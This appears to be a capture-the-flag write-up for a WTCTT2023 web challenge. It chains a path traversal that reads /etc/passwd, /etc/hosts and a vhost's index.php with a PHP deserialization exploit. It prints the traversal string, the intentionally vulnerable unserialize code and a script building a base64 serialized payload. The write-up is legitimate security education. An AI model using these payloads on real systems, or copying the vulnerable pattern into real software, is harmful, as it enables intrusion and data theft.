 ## Web 3 - Path Traversal over vHost
#### Description
Read one file and it will lead you to new clues. The challenge consists of 2 vHost, but you do not need to perform vHost Fuzzing (please avoid doing it).  
  
__Flag Format__ : WTCTT2023_WEB03{[a-z0-9]{32}}  
__URL__ : [http://web.wtctt2023.p7z.pw:8003/](http://web.wtctt2023.p7z.pw:8003/)  
__Hidden vHost URL Pattern__ : https://?????.chall3.wtctt2023.p7z.pw  
  
Hint 1: Directory Fuzzing is NOT required (no hidden files / web pages).  
Hint 2: Online password brute forcing (dictionary attack) is NOT required.  
Hint 3: The challenge is designed to be exploited manually without automated security scanners.
#### Solution

See in url bar. Yeah you can traversal to every file on system, Let's proof.

![1.png](./assets/web3/1.png)

```less
../../../../../../../../../../../../etc/passwd
```

![2.png](./assets/web3/2.png)

In description, it told you about flag in VHOST but you do not need to perform vHost Fuzzing. try to read /etc/hosts.

![3.png](./assets/web3/3.png)

Go to http://adm1n.chall3.wtctt2023.p7z.pw:8003 

![4.png](./assets/web3/4.png)

unknown host but don't worry it has another VHOST. try to enter http://chall3.wtctt2023.p7z.pw:8003

![5.png](./assets/web3/5.png)

It is able to view. How can I access the adm1n page? 

it's so easy if chall3 and adm1n is point to same interface. you can use the same IP from chall3 to resolve adm1n, try to edit in your /etc/hosts. Remember that you must use nslookup to find out the IP address of chall3.

![6.png](./assets/web3/6.png)

![7.png](./assets/web3/7.png)

finally you can view it but it's blank. same solution use dev tools to inspect.

![8.png](./assets/web3/8.png)

They have php code, but it is commented in the HTML. Let's switch to Path Traversal. The deploy web service by default places static code in /var/www/html; however, adm1n does not contain any code in that directory. /var/www/[vhosts]/ is the common path for vhosts, according to my research. try to traversal and read index.php

![9.png](./assets/web3/9.png)

Yummy and same solution use dev tools.

![10.png](./assets/web3/10.png)

cut some code that make me to get flag.

```php
<?php


function getHeaderValue($headerName) {
    // Convert the header name to the $_SERVER array format
    $serverKey = 'HTTP_' . strtoupper(str_replace('-', '_', $headerName));

    // Check if the header exists and return its value
    if (isset($_SERVER[$serverKey])) {
        return $_SERVER[$serverKey];
    } else {
        return null; // or any default value you wish to return
    }
}

class WTCTT2023 {
  function __destruct() {
    echo getenv('FLAG3');
  }
}

if(is_null(getHeaderValue("X-SECRET-X"))){
	echo '<?php echo highlight_file("index.php"); ?>';
}else{
	unserialize(base64_decode(getHeaderValue("X-SECRET-X")));	
}
?>
```

Yeah, we got php deserialization vulnerable. They have WTCTT2023 class that if we call it, we will get flag. just make serializtion value that call WTCTT2023 and remember you must encode with base64. 

```php
<?php
class WTCTT2023 {
  function __destruct() {
    echo getenv('FLAG3');
  }
}

$data = serialize(new WTCTT2023());
echo base64_encode($data);
?>
```

send payload with postman

![11.png](./assets/web3/11.png)

Yummy, got FLAG3. XD!!!